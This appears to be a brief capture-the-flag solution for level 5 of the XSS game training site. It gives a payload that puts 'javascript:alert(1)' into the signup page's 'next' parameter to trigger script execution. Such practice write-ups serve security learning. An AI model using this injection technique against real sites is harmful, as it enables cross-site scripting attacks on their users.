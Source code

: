 #  Level 5: Breaking protocol - [Click](https://xss-game.appspot.com/level5)

**Payload:** `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`

`javascript:alert(1)`
